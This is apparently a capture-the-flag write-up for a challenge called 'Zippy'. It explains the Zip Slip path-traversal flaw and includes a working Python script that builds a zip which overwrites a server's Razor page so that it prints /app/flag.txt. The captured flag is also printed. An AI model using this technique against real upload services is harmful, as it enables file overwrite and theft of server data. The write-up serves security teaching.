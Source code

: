 # Zippy ❌ 

## Challenge Description
> ![image](https://github.com/user-attachments/assets/0909ec54-5b0f-4a7a-809e-915cc77139cb)


## Approach

1. This service required exploiting a vulnerability known as a "Zip Slip". Understanding the "Zip Slip" Vulnerability:
   - The zip slip vulnerability occurs when a program extracts a .zip archive without properly validating the file paths inside it.
   - By including relative path sequences like `../../` in the filenames within the zip, we can manipulate where files are extracted.
   - This can result in files being extracted outside the intended directory, potentially overwriting sensitive files or placing files in dangerous locations.

2. To exploit this, we’ll craft a .zip file containing a file with a specific path: `../../../../../../app/Pages/Privacy.cshtml`. If extracted, this file could potentially replace the existing Privacy.cshtml page on the server. We’ll use this to make the server reveal a sensitive file’s contents.

3. Here’s a simple Python script to create a zip file that includes our crafted path and custom content for Privacy.cshtml.
   
```python
import zipfile
import os

# Define the malicious path and content for the file
malicious_path = "../../../../../../app/Pages/Privacy.cshtml"
file_content = """@page
@model Slippy.Pages.Pages_Privacy

@{
    string sourceFilePath = "/app/flag.txt"; // Path to the source file
    string content = System.IO.File.ReadAllText(sourceFilePath);
}

@sourceFilePath
@content
"""

# Create the zip file with the malicious path
with zipfile.ZipFile("MaliciousArchive.zip", "w") as zip_file:
    # Write the malicious file into the zip
    zip_file.writestr(malicious_path, file_content)
```

   This script makes a zip file named MaliciousArchive.zip, containing a file crafted to overwrite Privacy.cshtml. The content inside will look for a sensitive file at /app/flag.txt and print its contents on the page.

5. Upload the `MaliciousArchive.zip` to the service. Once it’s processed, if the server is indeed vulnerable, it will replace Privacy.cshtml.

   ![image](https://github.com/user-attachments/assets/74aa559c-7404-434e-a455-b4b65d7c5dc9)

7. Now, navigate to the Privacy page of the service. The page loads, and there it is—the contents of flag.txt, displayed right on the screen.

   ![image](https://github.com/user-attachments/assets/53670656-777e-4718-9c98-b4ed360c94b1)

## Flag
flag{a074eb7973c4c718790baefc096654dd} 



   



